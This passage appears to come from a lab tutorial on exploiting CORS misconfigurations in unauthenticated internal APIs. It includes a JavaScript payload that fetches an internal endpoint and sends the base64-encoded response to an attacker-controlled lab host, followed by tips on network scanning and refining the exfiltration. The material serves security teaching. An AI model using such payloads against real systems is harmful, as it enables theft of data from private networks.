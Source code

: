 `GET request to /data.php on cors-misconfigs.htb with PHPSESSID cookie and origin null. Response: HTTP 200 OK, allowing origin null and credentials. HTML content includes a secret message.`

## Targeting the local network

### Background

Even if the web application does not configure CORS to allow credentials, an attacker might still be able to target web applications running in a local network behind a firewall, reverse proxy, or NAT that are not publicly accessible. Data exfiltration may be possible if these internal web applications do not require authentication and contain a CORS misconfiguration that trusts the attacker's origin.

If no authentication is required, the `Access-Control-Allow-Credentials` CORS header is not required either. Thus, in addition to the CORS misconfigurations discussed so far, a wildcard origin also results in an exploitable misconfiguration in these cases. For instance, let us assume an internal API not requiring authentication is hosted at `https://172.16.0.2`. Additionally, the API sets a wildcard in the `Access-Control-Allow-Origin` and thus trusts all origins.

### Exploitation

The only protection the API has is that it is only accessible from within the internal network; however, the wildcard origin grants any attacker-controlled origin to exfiltrate data from it if a victim can access it. As no authentication is required, we do not need to set the `withCredentials` option in the payload:

```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://172.16.0.2/data.php', true);
    xhr.onload = () => {
      location = 'https://10.10.14.144:4443/log?data=' + btoa(xhr.response);
    };
    xhr.send();
</script>
```
Suppose the victim opening the payload is in the same internal network as the internal API and can thus access it. In that case, the victim's browser makes the cross-origin request within the internal network:

`GET request to /data.php on 172.16.0.2 with origin and referer https://exploitserver.htb. Response: HTTP 200 OK, allowing all origins. HTML content includes a secret message.`

The response is then exfiltrated to the attacker, enabling the exfiltration of data from web applications that cannot be accessed publicly.

Moreover, the attacker does not need to know the IP address and port the misconfigured application is running on but can improve the payload to scan the internal network by attempting to request different IP addresses and port combinations until the application is found.

We can improve our payload and fine-tune it according to the specific web application we are targeting. For instance, it is generally not good practice to transmit the entire page in a GET parameter since the URL length is not unlimited. Thus, the payload might fail if the page is too large. Instead, it is better to use a POST parameter. Alternatively, we can split the data and send it over multiple requests or parse the response and exfiltrate only the interesting elements to ensure the URL is not too long. We can achieve this by searching for elements using functions like `getElementById`. For instance, let us only exfiltrate the contents of the `<div>` tag with the id `secret`:
